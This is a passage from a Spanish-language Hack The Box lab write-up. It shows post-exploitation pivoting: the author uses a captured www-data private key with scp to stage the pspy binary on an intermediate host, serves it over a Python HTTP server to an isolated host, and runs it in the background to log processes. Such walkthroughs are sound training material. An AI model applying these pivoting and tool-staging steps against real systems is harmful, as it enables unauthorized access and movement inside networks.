 > **Recordemos que la `.3` solo tiene conectividad con la `.2`. Lo mejor fue pasar el archivo a la `.2` y desde la `.3` hablar con la `.2` para que nos preste el binario.**

```bash
scp <option> <source_user>@<source_host>:<file> <destination_user>@<destination_host>:<file>
scp <source_file> <user>@<hostname>:<dest_file>
```

Con `scp` también podemos usar la llave de identificación (si no tendríamos que modificar de nuevo el archivo `authorized_keys`), adecuando todo nos quedaría así:

```bash
❱ scp -i www-data.privkey pspy www-data@172.20.0.10:/tmp/test/pspy
```

Le damos candela:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/static/355bash_scp_pspy.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Yyy:

```bash
www-data@web:/tmp/test$ ls -la
...
-rwxr-xr-x 1 www-data www-data 1156536 Sep 30 25:25 pspy
```

Ahora es mucho más fácil la transferencia, desde la `.3` usamos `__curl` y guardamos el archivo.

En la `.2` nos ponemos en escucha, afortunadamente tiene `Python` instalado :P

```bash
www-data@web:/tmp/test$ which python3
/usr/bin/python3
www-data@web:/tmp/test$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y en la `.3`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/static/355bash_www-dataPKI___curlPSPY.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Lisssssstones, podemos pensar que necesitamos otra terminal para ejecutar la tarea y a la vez ver que pasa por detrás, pero noooooooooooooo (además, que pereza, lo hice, pero la perdí unas veces y aggg), podemos jugar con `timeout` y una tarea en background para ejecutar `pspy` en segundo plano mientras interactuamos con el binario, únicamente debemos guardar una traza de todo lo que pase mientras jugamos, algo así:

* [How to timeout with exit(0) from Bash](https://stackoverflow.com/questions/50382603/how-to-timeout-with-exit0-from-bash).

---

```bash
www-data@pki:/tmp/test$ timeout --preserve-status 2m ./pspy > /tmp/test/locuras.txt &
```

Lanzará `./pspy` por 2 minutos en segundo plano (`&`) sin importar si da error o no (`--preserve-status`) yyyyyyy todo lo que pase lo guardara en el archivo `/tmp/test/locuras.txt`, pos veamos:
